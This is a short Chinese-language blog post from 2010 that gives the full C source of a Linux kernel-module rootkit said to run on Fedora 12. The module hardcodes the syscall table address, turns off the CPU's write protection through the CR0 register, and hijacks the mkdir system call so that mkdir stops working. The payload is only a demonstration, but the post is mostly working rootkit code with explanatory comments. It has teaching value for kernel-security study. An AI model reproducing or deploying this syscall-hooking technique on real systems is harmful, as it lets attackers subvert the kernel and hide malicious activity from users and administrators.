

Title: 一个简单的linux rootkit
Date: 2010-04-24           
Category: 编程语言      
Tags: 信息安全, Linux, rootkit

#一个简单的linux rootkit

@(编程语言)[信息安全, Linux, rootkit]

下面提供一个相对完整的rootkit，在Fedora 12上编译运行成功。

	#include <linux/module.h>
	#include <linux/kernel.h>
	#include <asm/unistd.h>
	
	MODULE_LICENSE("GPL");
	
	// addr of sys_call_talbe = 0xc077e3a8，这个值是在/boot目录下，System.map或是以System.map打头的文件中找到的。
	void ** sys_call_table = (void **)0xc077e3a8;
	
	int (*orig_mkdir)(const char *path); //定义一个函数指正，用于保存挟制以前的初始值
	
	int hack_mkdir(const char * path) //定义一个替换函数，它将用来替换某个系统调用
	{
	        printk("<0> this is in hack_mkdir\n");
	        return 0;
	}

下面两个函数比较重要，因为在较新的内核中，sys_call_table的内存是只读的，详见entry_32.S:
	
	.section .rodata,"a"
	#include "syscall_table_32.S"
	
但我们可以通过该cr0寄存器的第16位来取消写保护，cr0寄存器如下：
	

第16位WP位，它控制是否允许处理器向标志为只读属性的内存页写入数据，如果WP=0, 禁用写保护功能。
	
	
	unsigned int clear_cr0(void) // 将WP清0，并返回清0前的值
	{
	        unsigned int cr0 = 0;
	        unsigned int ret;
	        asm volatile("movl %%cr0, %%eax"
	                :"=a"(cr0)
	                );
	        ret = cr0;
	        cr0 &= 0xfffeffff;
	        asm volatile("movl %%eax, %%cr0"
	                :
	                :"a"(cr0)
	                );
	                return ret;
	}
	
	void setback_cr0(unsigned int val) // 将cr0设为val
	{
	        asm volatile("movl %%eax, %%cr0"
	                :
	                :"a"(val)
	                );
	}
	
	static int __init begin(void)
	{
	        unsigned int cr0;
	        orig_mkdir = sys_call_table[__NR_mkdir]; //保存mkdir原来的的地址
	        printk("<0> sys_call_table[__NR_mkdir] = %x\n",  (unsigned int)sys_call_table[__NR_mkdir]);
	
	
	        cr0 = clear_cr0();
	        sys_call_table[__NR_mkdir] = hack_mkdir; //挟持
	        setback_cr0(cr0);
	   
	        printk("<0> sys_call_table[__NR_mkdir] = %x\n", (unsigned int)sys_call_table[__NR_mkdir]);
	
	  
	        return 0;
	}
	
	static void __exit end(void)
	{
	        int cr0;
	        cr0 = clear_cr0();
	        sys_call_table[__NR_mkdir] = orig_mkdir; //恢复mkdir系统调用
	        setback_cr0(cr0);  
	}
	
	module_init(begin);
	module_exit(end);
运行效果：

加载模块后，mkdir命令失效。